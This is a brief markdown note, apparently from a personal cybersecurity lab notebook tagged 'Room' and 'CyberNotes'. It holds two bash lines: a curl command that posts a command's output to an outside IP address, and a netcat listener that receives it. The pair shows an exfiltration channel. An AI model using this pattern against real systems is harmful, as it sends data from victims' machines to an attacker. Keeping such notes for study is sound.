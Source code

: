 ```yaml
---
tags:
  - Room
  - CyberNotes
---
```

``` bash icon
curl -X POST -d "data:$(pwd)" 10.21.4.183:5000
nc -lvp 5000
```
